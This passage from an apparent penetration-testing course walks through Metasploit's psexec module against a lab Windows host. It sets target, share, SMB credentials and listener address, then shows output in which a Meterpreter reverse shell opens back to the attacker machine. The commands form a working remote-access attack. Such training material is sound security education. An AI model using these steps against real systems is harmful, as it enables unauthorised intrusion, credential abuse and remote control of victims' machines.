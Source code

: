 This is one area where Metasploit shines in terms of ease of use. In the output of the module options, we see various options and settings with a description of what each setting means. We will not be using `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` and `SERVICE_NAME` in this section. Notice how this particular exploit will use a reverse TCP shell connection utilizing `Meterpreter`. A Meterpreter shell gives us far more functionality than a raw TCP reverse shell, as we established in this module's earlier sections. It is the default payload that is used in Metasploit.

We will want to use the `set` command to configure the following settings as such:

### **Setting Options**

```
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

These settings will ensure that our payload is delivered to the proper target (`RHOSTS`), uploaded to the default administrative share (`ADMIN$`) utilizing credentials (`SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine (`LHOST`).

These settings will be specific to the IP address on your attack box and on the target box. As well as with credentials you may gather on an engagement. We can set the LHOST (local host) VPN tunnel IP address or the VPN tunnel interface ID.

### **Exploits Away**

```
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter >
```

After we issue the `exploit` command, the exploit is run, and there is an attempt to deliver the payload onto the target utilizing the Meterpreter payload. Metasploit reports back each step of this process, as seen in the output. We know this was successful because a `stage` was sent successfully, which established a Meterpreter shell session (`meterpreter >`) and a system-level shell session. Keep in mind that Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target. The proper credentials and attack vector can give us the ability to upload & download files, execute system commands, run a keylogger, create/start/stop services, manage processes, and more.
